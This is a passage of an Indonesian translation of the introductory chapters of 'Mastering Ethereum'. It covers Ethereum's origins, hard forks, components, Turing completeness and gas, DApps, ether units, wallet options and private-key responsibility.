Kedua penulis buku ini menerima draf awal *whitepaper* dan memberikan komentar. Andreas M. Antonopoulos tertarik dengan gagasan tersebut dan menanyakan banyak pertanyaan kepada Vitalik tentang penggunaan *blockchain* terpisah untuk menegakkan aturan konsensus pada eksekusi *smart contract* dan implikasi dari bahasa yang Turing lengkap. Andreas terus mengikuti kemajuan Ethereum dengan minat besar tetapi sedang dalam tahap awal penulisan bukunya *Mastering Bitcoin*, dan tidak berpartisipasi secara langsung di Ethereum sampai jauh kemudian. Dr. Gavin Wood, bagaimanapun, adalah salah satu orang pertama yang menghubungi Vitalik dan menawarkan bantuan dengan keterampilan pemrograman C++-nya. Gavin menjadi salah satu pendiri, salah satu perancang, dan CTO Ethereum.

Seperti yang diceritakan Vitalik dalam postingannya "Ethereum Prehistory":

> Inilah saatnya ketika protokol Ethereum sepenuhnya merupakan ciptaan saya sendiri. Namun, dari sini dan seterusnya, para partisipan baru mulai bergabung. Yang paling menonjol di sisi protokol adalah Gavin Wood...
>
> Gavin juga sebagian besar dapat dikreditkan atas perubahan visi yang halus dari memandang Ethereum sebagai platform untuk membangun uang yang dapat diprogram, dengan kontrak berbasis *blockchain* yang dapat menampung aset digital dan mentransfernya sesuai dengan aturan yang telah ditetapkan, menjadi platform komputasi serbaguna. Ini dimulai dengan perubahan halus dalam penekanan dan terminologi, dan kemudian pengaruh ini menjadi lebih kuat dengan meningkatnya penekanan pada ansambel "Web 3", yang melihat Ethereum sebagai salah satu bagian dari serangkaian teknologi terdesentralisasi, dua lainnya adalah Whisper dan Swarm.

Mulai Desember 2013, Vitalik dan Gavin menyempurnakan dan mengembangkan gagasan tersebut, bersama-sama membangun lapisan protokol yang menjadi Ethereum.

Para pendiri Ethereum berpikir tentang sebuah *blockchain* tanpa tujuan spesifik, yang dapat mendukung berbagai macam aplikasi dengan cara diprogram. Idenya adalah bahwa dengan menggunakan *blockchain* serbaguna seperti Ethereum, seorang pengembang dapat memprogram aplikasi khusus mereka tanpa harus mengimplementasikan mekanisme dasar jaringan *peer-to-peer*, *blockchain*, algoritma konsensus, dll. Platform Ethereum dirancang untuk mengabstraksi detail-detail ini dan menyediakan lingkungan pemrograman yang deterministik dan aman untuk aplikasi *blockchain* terdesentralisasi.

Sama seperti Satoshi, Vitalik dan Gavin tidak hanya menciptakan teknologi baru; mereka menggabungkan penemuan baru dengan teknologi yang ada dengan cara yang baru dan mengirimkan kode prototipe untuk membuktikan ide-ide mereka kepada dunia.

Para pendiri bekerja selama bertahun-tahun, membangun dan menyempurnakan visi tersebut. Dan pada tanggal 30 Juli 2015, blok Ethereum pertama ditambang. Komputer dunia mulai melayani dunia.

> Artikel Vitalik Buterin "A Prehistory of Ethereum" diterbitkan pada September 2017 dan memberikan pandangan orang pertama yang menarik tentang momen-momen paling awal Ethereum.
>
> Anda dapat membacanya di [https://vitalik.ca/general/2017/09/14/prehistory.html](https://www.google.com/search?q=https://vitalik.ca/general/2017/09/14/prehistory.html).

### **Empat Tahap Pengembangan Ethereum**

Pengembangan Ethereum direncanakan dalam empat tahap yang berbeda, dengan perubahan besar terjadi di setiap tahap. Sebuah tahap dapat mencakup sub-rilis, yang dikenal sebagai "*hard fork*", yang mengubah fungsionalitas dengan cara yang tidak kompatibel mundur (*backward compatible*).

Empat tahap pengembangan utama diberi nama kode **Frontier, Homestead, Metropolis, dan Serenity**. *Hard fork* perantara yang telah terjadi (atau direncanakan) hingga saat ini diberi nama kode **Ice Age, DAO, Tangerine Whistle, Spurious Dragon, Byzantium, dan Constantinople**. Baik tahap pengembangan maupun *hard fork* perantara ditunjukkan pada garis waktu berikut, yang "diberi tanggal" berdasarkan nomor blok:

**Blok \#0**
**Frontier**—Tahap awal Ethereum, berlangsung dari 30 Juli 2015, hingga Maret 2016.

**Blok \#200.000**
**Ice Age**—Sebuah *hard fork* untuk memperkenalkan peningkatan kesulitan eksponensial, untuk memotivasi transisi ke PoS ketika sudah siap.

**Blok \#1.150.000**
**Homestead**—Tahap kedua Ethereum, diluncurkan pada Maret 2016.

**Blok \#1.192.000**
**DAO**—Sebuah *hard fork* yang memberikan kompensasi kepada korban dari kontrak DAO yang diretas dan menyebabkan Ethereum dan Ethereum Classic terpecah menjadi dua sistem yang bersaing.

**Blok \#2.463.000**
**Tangerine Whistle**—Sebuah *hard fork* untuk mengubah perhitungan *gas* untuk operasi padat I/O tertentu dan untuk membersihkan akumulasi keadaan dari serangan *denial-of-service* (DoS) yang mengeksploitasi biaya *gas* yang rendah dari operasi-operasi tersebut.

**Blok \#2.675.000**
**Spurious Dragon**—Sebuah *hard fork* untuk mengatasi lebih banyak vektor serangan DoS, dan pembersihan keadaan lainnya. Juga, sebuah mekanisme perlindungan serangan pemutaran ulang (*replay attack*).

**Blok \#4.370.000**
**Metropolis Byzantium**—Metropolis adalah tahap ketiga Ethereum, yang sedang berjalan pada saat penulisan buku ini, diluncurkan pada Oktober 2017. Byzantium adalah yang pertama dari dua *hard fork* yang direncanakan untuk Metropolis.

Setelah Byzantium, ada satu lagi *hard fork* yang direncanakan untuk Metropolis: **Constantinople**. Metropolis akan diikuti oleh tahap akhir penyebaran Ethereum, dengan nama kode **Serenity**.

### **Ethereum: Blockchain Serbaguna**

*Blockchain* asli, yaitu *blockchain* Bitcoin, melacak keadaan unit bitcoin dan kepemilikannya. Anda dapat menganggap Bitcoin sebagai mesin keadaan konsensus terdistribusi, di mana transaksi menyebabkan transisi keadaan global, mengubah kepemilikan koin. Transisi keadaan dibatasi oleh aturan konsensus, memungkinkan semua partisipan untuk (pada akhirnya) mencapai keadaan umum (konsensus) dari sistem, setelah beberapa blok ditambang.

Ethereum juga merupakan mesin keadaan terdistribusi. Tetapi alih-alih hanya melacak keadaan kepemilikan mata uang, Ethereum melacak transisi keadaan dari sebuah **penyimpanan data serbaguna**, yaitu, sebuah penyimpanan yang dapat menampung data apa pun yang dapat diekspresikan sebagai tupel kunci-nilai (*key-value tuple*). Penyimpanan data kunci-nilai menampung nilai-nilai arbitrer, masing-masing direferensikan oleh beberapa kunci; misalnya, nilai "Mastering Ethereum" yang direferensikan oleh kunci "Book Title". Dalam beberapa hal, ini melayani tujuan yang sama dengan model penyimpanan data *Random Access Memory* (RAM) yang digunakan oleh sebagian besar komputer serbaguna. Ethereum memiliki memori yang menyimpan baik kode maupun data, dan menggunakan *blockchain* Ethereum untuk melacak bagaimana memori ini berubah dari waktu ke waktu. Seperti komputer *stored-program* serbaguna, Ethereum dapat memuat kode ke dalam *state machine*-nya dan menjalankan kode itu, menyimpan perubahan keadaan yang dihasilkan di dalam *blockchain*-nya. Dua perbedaan kritis dari sebagian besar komputer serbaguna adalah bahwa perubahan keadaan Ethereum diatur oleh aturan konsensus dan keadaannya didistribusikan secara global. Ethereum menjawab pertanyaan: "Bagaimana jika kita bisa melacak keadaan arbitrer apa pun dan memprogram *state machine* untuk menciptakan komputer dunia yang beroperasi di bawah konsensus?"

### **Komponen-Komponen Ethereum**

Di Ethereum, komponen-komponen dari sistem *blockchain* yang dijelaskan dalam "Komponen-Komponen Sebuah Blockchain" di halaman 2, secara lebih spesifik adalah:

**Jaringan P2P**
Ethereum berjalan di jaringan utama Ethereum, yang dapat dialamatkan pada port TCP 30303, dan menjalankan protokol yang disebut ÐΞVp2p.

**Aturan Konsensus**
Aturan konsensus Ethereum didefinisikan dalam spesifikasi referensi, Yellow Paper (lihat "Bacaan Lebih Lanjut" di halaman 7).

**Transaksi**
Transaksi Ethereum adalah pesan jaringan yang mencakup (antara lain) pengirim, penerima, nilai, dan muatan data (*data payload*).

***State machine***
Transisi keadaan Ethereum diproses oleh *Ethereum Virtual Machine* (EVM), sebuah mesin virtual berbasis tumpukan (*stack-based*) yang mengeksekusi *bytecode* (instruksi bahasa mesin). Program EVM, yang disebut "*smart contracts*", ditulis dalam bahasa tingkat tinggi (misalnya, Solidity) dan dikompilasi menjadi *bytecode* untuk dieksekusi di EVM.

**Struktur Data**
Keadaan Ethereum disimpan secara lokal di setiap *node* sebagai sebuah basis data (biasanya LevelDB dari Google), yang berisi transaksi dan keadaan sistem dalam struktur data *hash* berseri yang disebut Pohon Merkle Patricia (*Merkle Patricia Tree*).

**Algoritma Konsensus**
Ethereum menggunakan model konsensus Bitcoin, Konsensus Nakamoto, yang menggunakan blok tanda tangan tunggal berurutan, yang bobot kepentingannya ditentukan oleh PoW untuk menentukan rantai terpanjang dan oleh karena itu keadaan saat ini. Namun, ada rencana untuk beralih ke sistem pemungutan suara berbobot PoS, dengan nama kode Casper, dalam waktu dekat.

**Keamanan Ekonomi**
Ethereum saat ini menggunakan algoritma PoW yang disebut Ethash, tetapi ini pada akhirnya akan ditinggalkan dengan perpindahan ke PoS di masa depan.

**Klien**
Ethereum memiliki beberapa implementasi perangkat lunak klien yang dapat saling beroperasi, yang paling menonjol adalah Go-Ethereum (Geth) dan Parity.

### **Bacaan Lebih Lanjut**

Referensi berikut memberikan informasi tambahan tentang teknologi yang disebutkan di sini:

  * [The Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf)
  * [The Beige Paper, sebuah penulisan ulang Yellow Paper untuk audiens yang lebih luas dalam bahasa yang kurang formal](https://github.com/chronaeon/beigepaper)
  * [Protokol jaringan ÐΞVp2p](http://bit.ly/2quAlTE)
  * [Daftar sumber daya Ethereum Virtual Machine][http://bit.ly/2PmtjiS](http://bit.ly/2PmtjiS)
  * [Basis data LevelDB (paling sering digunakan untuk menyimpan salinan lokal dari *blockchain*](http://leveldb.org)
  * [Pohon Merkle Patricia](https://github.com/ethereum/wiki/wiki/Patricia-Tree)
  * [Algoritma PoW Ethash](https://github.com/ethereum/wiki/wiki/Ethash)
  * [Panduan Implementasi Casper PoS v1](http://bit.ly/2DyPr3l)
  * [Klien Go-Ethereum (Geth)](https://geth.ethereum.org/)
  * [Klien Parity Ethereum](https://parity.io/)

### **Ethereum dan Kelengkapan Turing (Turing Completeness)**

Segera setelah Anda mulai membaca tentang Ethereum, Anda akan segera menemukan istilah "**Turing lengkap**". Ethereum, kata mereka, tidak seperti Bitcoin, adalah Turing lengkap. Apa sebenarnya artinya itu?

Istilah ini merujuk pada matematikawan Inggris Alan Turing, yang dianggap sebagai bapak ilmu komputer. Pada tahun 1936 ia menciptakan model matematis dari sebuah komputer yang terdiri dari sebuah *state machine* yang memanipulasi simbol dengan membaca dan menulisnya pada memori berurutan (menyerupai pita kertas dengan panjang tak terbatas). Dengan konstruksi ini, Turing kemudian memberikan dasar matematis untuk menjawab (secara negatif) pertanyaan tentang komputabilitas universal, yang berarti apakah semua masalah dapat diselesaikan. Dia membuktikan bahwa ada kelas masalah yang tidak dapat dihitung. Secara khusus, ia membuktikan bahwa **masalah penghentian (*halting problem*)** (apakah mungkin, dengan program dan input yang arbitrer, untuk menentukan apakah program tersebut pada akhirnya akan berhenti berjalan) tidak dapat diselesaikan.

Alan Turing lebih lanjut mendefinisikan sebuah sistem sebagai **Turing lengkap** jika dapat digunakan untuk mensimulasikan mesin Turing apa pun. Sistem semacam itu disebut **Mesin Turing Universal (*Universal Turing machine* - UTM)**.

Kemampuan Ethereum untuk mengeksekusi program yang tersimpan, dalam sebuah *state machine* yang disebut *Ethereum Virtual Machine*, sambil membaca dan menulis data ke memori membuatnya menjadi sistem yang Turing lengkap dan oleh karena itu sebuah UTM. Ethereum dapat menghitung algoritma apa pun yang dapat dihitung oleh mesin Turing mana pun, dengan batasan memori yang terbatas.

Inovasi terobosan Ethereum adalah menggabungkan arsitektur komputasi serbaguna dari komputer *stored-program* dengan *blockchain* terdesentralisasi, dengan demikian menciptakan **komputer dunia dengan keadaan tunggal (*singleton*) yang terdistribusi**. Program-program Ethereum berjalan "di mana-mana," namun menghasilkan keadaan umum yang diamankan oleh aturan konsensus.

#### **Kelengkapan Turing sebagai sebuah "Fitur"**

Mendengar bahwa Ethereum adalah Turing lengkap, Anda mungkin sampai pada kesimpulan bahwa ini adalah fitur yang entah bagaimana kurang dalam sistem yang tidak Turing lengkap. Sebenarnya, sebaliknya. Kelengkapan Turing sangat mudah dicapai; faktanya, *state machine* Turing lengkap paling sederhana yang diketahui memiliki 4 keadaan dan menggunakan 6 simbol, dengan definisi keadaan yang hanya sepanjang 22 instruksi. Memang, terkadang sistem ditemukan "secara tidak sengaja menjadi Turing lengkap". Referensi yang menyenangkan tentang sistem semacam itu dapat ditemukan di [http://bit.ly/2Og1VgX](http://bit.ly/2Og1VgX).

Namun, kelengkapan Turing sangat berbahaya, terutama dalam sistem akses terbuka seperti *blockchain* publik, karena masalah penghentian (*halting problem*) yang telah kita singgung sebelumnya. 

sebagai contoh, printer modern bersifat Turing lengkap dan dapat diberikan file untuk dicetak yang mengirimnya ke kondisi macet (*frozen state*). Fakta bahwa Ethereum adalah Turing lengkap berarti bahwa program apa pun dengan kompleksitas apa pun dapat dihitung oleh Ethereum. Tetapi fleksibilitas itu membawa beberapa masalah keamanan dan manajemen sumber daya yang pelik. Printer yang tidak responsif dapat dimatikan dan dihidupkan kembali. Hal itu tidak mungkin dilakukan dengan *blockchain* publik.

### **Implikasi dari Kelengkapan Turing**

Turing membuktikan bahwa Anda tidak dapat memprediksi apakah sebuah program akan berakhir dengan mensimulasikannya di komputer. Secara sederhana, kita tidak dapat memprediksi jalur sebuah program tanpa menjalankannya. Sistem yang Turing lengkap dapat berjalan dalam "**loop tak terbatas**," sebuah istilah yang digunakan (secara terlalu sederhana) untuk menggambarkan program yang tidak berhenti. Sangat mudah untuk membuat program yang menjalankan *loop* yang tidak pernah berakhir. Tetapi *loop* yang tidak pernah berakhir secara tidak sengaja dapat muncul tanpa peringatan, karena interaksi yang kompleks antara kondisi awal dan kode. Di Ethereum, ini menimbulkan sebuah tantangan: setiap *node* (klien) yang berpartisipasi harus memvalidasi setiap transaksi, menjalankan *smart contract* apa pun yang dipanggilnya.

Namun seperti yang dibuktikan Turing, Ethereum tidak dapat memprediksi apakah sebuah *smart contract* akan berhenti, atau berapa lama ia akan berjalan, tanpa benar-benar menjalankannya (yang mungkin berjalan selamanya). Baik secara sengaja maupun tidak, sebuah *smart contract* dapat dibuat sedemikian rupa sehingga berjalan selamanya ketika sebuah *node* mencoba memvalidasinya. Ini secara efektif merupakan serangan DoS. Dan tentu saja, di antara program yang membutuhkan satu milidetik untuk divalidasi dan yang berjalan selamanya, terdapat rentang tak terbatas dari program-program jahat yang boros sumber daya, membebani memori, dan membuat CPU panas berlebih yang hanya membuang-buang sumber daya. Di dalam sebuah komputer dunia, sebuah program yang menyalahgunakan sumber daya berarti menyalahgunakan sumber daya dunia. Bagaimana Ethereum membatasi sumber daya yang digunakan oleh *smart contract* jika ia tidak dapat memprediksi penggunaan sumber daya di muka?

Untuk menjawab tantangan ini, Ethereum memperkenalkan mekanisme pengukuran yang disebut **gas**. Saat EVM mengeksekusi *smart contract*, ia dengan cermat menghitung setiap instruksi (komputasi, akses data, dll.). Setiap instruksi memiliki biaya yang telah ditentukan dalam satuan gas. Ketika sebuah transaksi memicu eksekusi *smart contract*, transaksi tersebut harus menyertakan sejumlah gas yang menetapkan batas atas dari apa yang dapat dikonsumsi saat menjalankan *smart contract*. EVM akan menghentikan eksekusi jika jumlah gas yang dikonsumsi oleh komputasi melebihi gas yang tersedia dalam transaksi. Gas adalah mekanisme yang digunakan Ethereum untuk memungkinkan komputasi Turing lengkap sambil membatasi sumber daya yang dapat dikonsumsi oleh program apa pun.

Pertanyaan selanjutnya adalah, bagaimana seseorang mendapatkan gas untuk membayar komputasi di komputer dunia Ethereum? Anda tidak akan menemukan gas di bursa mana pun. Gas hanya dapat dibeli sebagai bagian dari transaksi, dan hanya dapat dibeli dengan **ether**. Ether perlu dikirim bersama dengan transaksi dan perlu dialokasikan secara eksplisit untuk pembelian gas, bersama dengan harga gas yang dapat diterima. Sama seperti di pom bensin, harga gas tidak tetap. Gas dibeli untuk transaksi, komputasi dieksekusi, dan gas yang tidak terpakai dikembalikan kepada pengirim transaksi.

### **Dari Blockchain Serbaguna ke Aplikasi Terdesentralisasi (DApps)**

Ethereum dimulai sebagai cara untuk membuat *blockchain* serbaguna yang dapat diprogram untuk berbagai kegunaan. Namun dengan sangat cepat, visi Ethereum meluas menjadi platform untuk memprogram **DApps**. DApps merepresentasikan perspektif yang lebih luas daripada *smart contract*. Sebuah DApp, minimal, adalah sebuah *smart contract* dan sebuah antarmuka pengguna web. Secara lebih luas, DApp adalah aplikasi web yang dibangun di atas layanan infrastruktur *peer-to-peer* yang terbuka dan terdesentralisasi.

Sebuah DApp terdiri dari setidaknya:
* *Smart contract* di sebuah *blockchain*
* Antarmuka pengguna *frontend* web

Selain itu, banyak DApp menyertakan komponen terdesentralisasi lainnya, seperti:
* Protokol dan platform penyimpanan terdesentralisasi (P2P)
* Protokol dan platform pesan terdesentralisasi (P2P)

> Anda mungkin melihat DApps dieja sebagai **ÐApps**. Karakter Ð adalah karakter Latin yang disebut "ETH," yang merujuk pada Ethereum. Untuk menampilkan karakter ini, gunakan kodepoin Unicode `0xD0`, atau jika perlu entitas karakter HTML `&eth;` (atau entitas desimal `&#208;`).

### **Era Ketiga Internet**

Pada tahun 2004, istilah "Web 2.0" menjadi terkenal, menggambarkan evolusi web menuju konten yang dibuat pengguna, antarmuka yang responsif, dan interaktivitas. Web 2.0 bukanlah spesifikasi teknis, melainkan istilah yang menggambarkan fokus baru aplikasi web.

Konsep DApps dimaksudkan untuk membawa World Wide Web ke tahap evolusi alaminya yang berikutnya, memperkenalkan desentralisasi dengan protokol *peer-to-peer* ke dalam setiap aspek aplikasi web. Istilah yang digunakan untuk menggambarkan evolusi ini adalah **web3**, yang berarti "versi" ketiga dari web. Pertama kali diusulkan oleh Dr. Gavin Wood, web3 merepresentasikan visi dan fokus baru untuk aplikasi web: dari aplikasi yang dimiliki dan dikelola secara terpusat, menjadi aplikasi yang dibangun di atas protokol terdesentralisasi.

Di bab-bab selanjutnya, kita akan menjelajahi pustaka JavaScript `web3.js` Ethereum, yang menjembatani aplikasi JavaScript yang berjalan di browser Anda dengan *blockchain* Ethereum. Pustaka `web3.js` juga mencakup antarmuka ke jaringan penyimpanan P2P yang disebut Swarm dan layanan pesan P2P yang disebut Whisper. Dengan ketiga komponen ini yang disertakan dalam pustaka JavaScript yang berjalan di browser web Anda, para pengembang memiliki seperangkat pengembangan aplikasi lengkap yang memungkinkan mereka membangun DApps web3.

### **Budaya Pengembangan Ethereum**

Sejauh ini kita telah membahas bagaimana tujuan dan teknologi Ethereum berbeda dari *blockchain* lain yang mendahuluinya, seperti Bitcoin. Ethereum juga memiliki budaya pengembangan yang sangat berbeda.

Di Bitcoin, pengembangan dipandu oleh prinsip-prinsip konservatif: semua perubahan dipelajari dengan cermat untuk memastikan tidak ada sistem yang ada yang terganggu. Sebagian besar, perubahan hanya diimplementasikan jika kompatibel mundur (*backward compatible*). Klien yang ada diizinkan untuk ikut serta, tetapi akan terus beroperasi jika mereka memutuskan untuk tidak melakukan pembaruan.

Di Ethereum, sebagai perbandingan, budaya pengembangan komunitasnya berfokus pada masa depan daripada masa lalu. Mantra (yang tidak sepenuhnya serius) adalah "*move fast and break things*" (bergerak cepat dan merusak banyak hal). Jika perubahan diperlukan, itu akan diimplementasikan, bahkan jika itu berarti membatalkan asumsi sebelumnya, merusak kompatibilitas, atau memaksa klien untuk memperbarui. Budaya pengembangan Ethereum ditandai oleh inovasi yang cepat, evolusi yang cepat, dan kesediaan untuk menerapkan perbaikan yang berwawasan ke depan, bahkan jika ini mengorbankan beberapa kompatibilitas mundur.

Apa artinya ini bagi Anda sebagai pengembang adalah Anda harus tetap fleksibel dan bersiap untuk membangun kembali infrastruktur Anda saat beberapa asumsi yang mendasarinya berubah. Salah satu tantangan besar yang dihadapi pengembang di Ethereum adalah kontradiksi yang melekat antara men-deploy kode ke sistem yang tidak dapat diubah (*immutable*) dan platform pengembangan yang masih terus berkembang. Anda tidak bisa begitu saja "memperbarui" *smart contract* Anda. Anda harus siap untuk men-deploy yang baru, memigrasikan pengguna, aplikasi, dan dana, lalu memulai dari awal.

Ironisnya, ini juga berarti bahwa tujuan membangun sistem dengan lebih banyak otonomi dan lebih sedikit kontrol terpusat masih belum sepenuhnya terwujud. Otonomi dan desentralisasi memerlukan sedikit lebih banyak stabilitas pada platform daripada yang mungkin Anda dapatkan di Ethereum dalam beberapa tahun ke depan. Untuk "mengembangkan" platform, Anda harus siap untuk membuang dan memulai kembali *smart contract* Anda, yang berarti Anda harus mempertahankan tingkat kontrol tertentu atasnya.

Tetapi, di sisi positifnya, Ethereum bergerak maju dengan sangat cepat. Ada sedikit peluang untuk "*bike-shedding*," sebuah ekspresi yang berarti menunda pengembangan dengan memperdebatkan detail-detail kecil seperti bagaimana membangun gudang sepeda di belakang stasiun tenaga nuklir. Jika Anda mulai melakukan *bike-shedding*, Anda mungkin tiba-tiba menemukan bahwa saat Anda teralihkan, sisa tim pengembangan telah mengubah rencana dan meninggalkan sepeda demi *hovercraft* otonom.

Pada akhirnya, pengembangan platform Ethereum akan melambat dan antarmukanya akan menjadi tetap. Tetapi untuk saat ini, inovasi adalah prinsip pendorongnya. Sebaiknya Anda mengikutinya, karena tidak ada yang akan melambat untuk Anda.

### **Mengapa Belajar Ethereum?**

*Blockchain* memiliki kurva belajar yang sangat curam, karena mereka menggabungkan berbagai disiplin ilmu menjadi satu domain: pemrograman, keamanan informasi, kriptografi, ekonomi, sistem terdistribusi, jaringan *peer-to-peer*, dll. Ethereum membuat kurva belajar ini jauh lebih landai, sehingga Anda dapat memulai dengan cepat. Tetapi tepat di bawah permukaan lingkungan yang tampak sederhana ini, terdapat lebih banyak lagi. Saat Anda belajar dan mulai melihat lebih dalam, selalu ada lapisan kompleksitas dan keajaiban lainnya.

Ethereum adalah platform yang hebat untuk belajar tentang *blockchain* dan sedang membangun komunitas pengembang yang besar, lebih cepat daripada platform *blockchain* lainnya. Lebih dari yang lain, Ethereum adalah *blockchain* untuk pengembang, dibangun oleh pengembang untuk pengembang. Seorang pengembang yang akrab dengan aplikasi JavaScript dapat langsung terjun ke Ethereum dan mulai menghasilkan kode yang berfungsi dengan sangat cepat. Selama beberapa tahun pertama kehidupan Ethereum, umum untuk melihat kaus yang mengumumkan bahwa Anda dapat membuat token hanya dalam lima baris kode. Tentu saja, ini adalah pedang bermata dua. Sangat mudah untuk menulis kode, tetapi sangat sulit untuk menulis kode yang baik dan aman.

### **Apa yang Akan Anda Pelajari dari Sini**

Buku ini akan menyelami Ethereum dan memeriksa setiap komponennya. Anda akan mulai dengan transaksi sederhana, membedah cara kerjanya, membangun kontrak sederhana, membuatnya lebih baik, dan mengikuti perjalanannya melalui sistem Ethereum.

Anda tidak hanya akan belajar cara menggunakan Ethereum—bagaimana cara kerjanya—tetapi juga **mengapa** ia dirancang seperti itu. Anda akan dapat memahami bagaimana setiap bagian bekerja, dan bagaimana mereka saling cocok satu sama lain dan mengapa.

---

# BAB 2
## Dasar-Dasar Ethereum

Dalam bab ini kita akan mulai menjelajahi Ethereum, mempelajari cara menggunakan dompet, cara membuat transaksi, dan juga cara menjalankan *smart contract* dasar.

### **Unit Mata Uang Ether**

Unit mata uang Ethereum disebut **ether**, diidentifikasi juga sebagai "ETH" atau dengan simbol **Ξ** (dari huruf Yunani "Xi" yang terlihat seperti huruf kapital E yang digayakan) atau, lebih jarang, **♦**: contohnya, 1 ether, atau 1 ETH, atau Ξ1, atau ♦1.

> Gunakan karakter Unicode U+039E untuk Ξ dan U+2666 untuk ♦.

Ether dibagi lagi menjadi unit-unit yang lebih kecil, hingga unit terkecil yang mungkin, yang diberi nama **wei**. Satu ether adalah 1 kuintiliun wei ($1 \times 10^{18}$ atau 1.000.000.000.000.000.000). Anda mungkin mendengar orang merujuk mata uang ini sebagai "Ethereum" juga, tetapi ini adalah kesalahan umum pemula. **Ethereum adalah sistemnya, ether adalah mata uangnya.**

Nilai ether selalu direpresentasikan secara internal di Ethereum sebagai nilai integer tak bertanda (*unsigned integer*) dalam denominasi wei. Ketika Anda bertransaksi 1 ether, transaksi tersebut mengkodekan `1000000000000000000` wei sebagai nilainya.

Berbagai denominasi ether memiliki nama ilmiah yang menggunakan Sistem Satuan Internasional (SI) dan nama sehari-hari (*colloquial*) yang memberikan penghormatan kepada banyak pemikir hebat di bidang komputasi dan kriptografi.

Tabel 2-1 menunjukkan berbagai unit, nama sehari-hari (umum), dan nama SI-nya. Sesuai dengan representasi nilai internal, tabel ini menunjukkan semua denominasi dalam wei (baris pertama), dengan ether ditunjukkan sebagai $10^{18}$ wei di baris ke-7.

<p align="center">
  
</p>

### **Memilih Dompet Ethereum**

Istilah "dompet" (*wallet*) telah memiliki banyak arti, meskipun semuanya saling terkait dan dalam penggunaan sehari-hari pada dasarnya merujuk pada hal yang sama. Kami akan menggunakan istilah "dompet" untuk mengartikan **aplikasi perangkat lunak yang membantu Anda mengelola akun Ethereum Anda**. Singkatnya, dompet Ethereum adalah gerbang Anda ke sistem Ethereum. Dompet ini menyimpan kunci Anda dan dapat membuat serta menyiarkan transaksi atas nama Anda. Memilih dompet Ethereum bisa jadi sulit karena ada banyak pilihan berbeda dengan fitur dan desain yang beragam. Beberapa lebih cocok untuk pemula dan beberapa lebih cocok untuk para ahli. Platform Ethereum itu sendiri masih terus disempurnakan, dan dompet "terbaik" sering kali adalah yang dapat beradaptasi dengan perubahan yang datang bersama pembaruan platform.

Tapi jangan khawatir! Jika Anda memilih dompet dan tidak menyukai cara kerjanya—atau jika Anda menyukainya pada awalnya tetapi kemudian ingin mencoba yang lain—Anda dapat mengganti dompet dengan cukup mudah. Yang harus Anda lakukan adalah membuat transaksi yang mengirimkan dana Anda dari dompet lama ke dompet baru, atau mengekspor kunci privat (*private keys*) Anda dan mengimpornya ke dompet yang baru.

Kami telah memilih tiga jenis dompet yang berbeda untuk digunakan sebagai contoh di seluruh buku: **dompet seluler, dompet desktop, dan dompet berbasis web**. Kami memilih ketiga dompet ini karena mereka merepresentasikan berbagai macam kompleksitas dan fitur. Namun, pemilihan dompet-dompet ini **bukanlah sebuah dukungan** terhadap kualitas atau keamanannya. Mereka hanyalah titik awal yang baik untuk demonstrasi dan pengujian.

Ingatlah bahwa agar aplikasi dompet dapat berfungsi, ia harus memiliki akses ke kunci privat Anda, jadi sangat penting bagi Anda untuk hanya mengunduh dan menggunakan aplikasi dompet dari sumber yang Anda percayai. Untungnya, secara umum, semakin populer sebuah aplikasi dompet, semakin besar kemungkinannya untuk dapat dipercaya. Meskipun demikian, merupakan praktik yang baik untuk tidak "menaruh semua telur Anda dalam satu keranjang" dan menyebarkan akun Ethereum Anda di beberapa dompet.

Berikut adalah beberapa dompet yang bagus untuk memulai:

**MetaMask**
MetaMask adalah dompet ekstensi browser yang berjalan di browser Anda (Chrome, Firefox, Opera, atau Brave Browser). Dompet ini mudah digunakan dan nyaman untuk pengujian, karena dapat terhubung ke berbagai *node* Ethereum dan *blockchain* uji. MetaMask adalah dompet berbasis web.

**Jaxx**
Jaxx adalah dompet multiplatform dan multikurensi yang berjalan di berbagai sistem operasi, termasuk Android, iOS, Windows, macOS, dan Linux. Ini sering menjadi pilihan yang baik untuk pengguna baru karena dirancang untuk kesederhanaan dan kemudahan penggunaan. Jaxx bisa menjadi dompet seluler atau desktop, tergantung di mana Anda menginstalnya.

**MyEtherWallet (MEW)**
MyEtherWallet adalah dompet berbasis web yang berjalan di browser apa pun. Dompet ini memiliki banyak fitur canggih yang akan kita jelajahi dalam banyak contoh kita. MyEtherWallet adalah dompet berbasis web.

**Emerald Wallet**
Emerald Wallet dirancang untuk bekerja dengan *blockchain* Ethereum Classic, tetapi kompatibel dengan *blockchain* berbasis Ethereum lainnya. Ini adalah aplikasi desktop sumber terbuka dan bekerja di bawah Windows, macOS, dan Linux. Emerald Wallet dapat menjalankan *full node* atau terhubung ke *node* publik jarak jauh, bekerja dalam mode "ringan" (*light*). Dompet ini juga memiliki alat pendamping untuk melakukan semua operasi dari baris perintah (*command line*).

Kita akan mulai dengan menginstal MetaMask di desktop—tetapi pertama-tama, kita akan membahas secara singkat tentang mengontrol dan mengelola kunci.

### **Kontrol dan Tanggung Jawab**

*Blockchain* terbuka seperti Ethereum itu penting karena beroperasi sebagai sistem terdesentralisasi. Itu berarti banyak hal, tetapi satu aspek krusial adalah bahwa setiap pengguna Ethereum dapat—dan seharusnya—**mengontrol kunci privat mereka sendiri**, yang merupakan hal yang mengontrol akses ke dana dan *smart contract*. Terkadang kita menyebut kombinasi akses ke dana dan *smart contract* sebagai "akun" atau "dompet". Istilah-istilah ini bisa menjadi cukup kompleks dalam fungsionalitasnya, jadi kita akan membahas ini lebih detail nanti. Namun, sebagai prinsip dasar, sesederhana **satu kunci privat sama dengan satu "akun."**

Beberapa pengguna memilih untuk menyerahkan kontrol atas kunci privat mereka dengan menggunakan kustodian pihak ketiga, seperti bursa daring (*online exchange*). Dalam buku ini, kami akan mengajari Anda cara mengambil kendali dan mengelola kunci privat Anda sendiri.

Dengan kontrol datanglah tanggung jawab besar. **Jika Anda kehilangan kunci privat, Anda kehilangan akses ke dana dan kontrak Anda.** Tidak ada yang bisa membantu Anda mendapatkan kembali akses—dana Anda akan terkunci selamanya. Berikut adalah beberapa tips untuk membantu Anda mengelola tanggung jawab ini:

* **Jangan mengimprovisasi keamanan.** Gunakan pendekatan standar yang sudah teruji.
